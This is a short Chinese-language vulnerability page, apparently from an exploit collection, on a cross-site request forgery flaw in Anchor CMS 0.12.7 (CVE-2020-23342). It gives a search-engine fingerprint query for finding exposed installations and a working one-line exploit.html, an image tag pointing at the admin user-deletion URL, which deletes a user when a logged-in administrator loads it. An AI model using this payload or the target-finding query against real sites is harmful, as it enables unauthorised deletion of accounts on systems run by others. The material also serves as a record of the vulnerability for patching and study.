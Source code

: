 # Anchor CMS 0.12.7 跨站请求伪造 CVE-2020-23342

# Anchor CMS 0.12.7 跨站请求伪造 CVE-2020-23342

## 漏洞描述

- https://packetstormsecurity.com/files/161048/anchorcms0127-xsrf.txt

## 网络测绘

```
"Anchor CMS" && body="themes/default/img/favicon.png"
```

## 漏洞复现

Anchor CMS使用Get方法进行敏感操作，可以使用exploit.html进行删除用户等操作。

**exploit.html：**

```html
<img src="http://target/anchor/index.php/admin/users/delete/21">
```

当管理员点击时删除ID为21的用户。

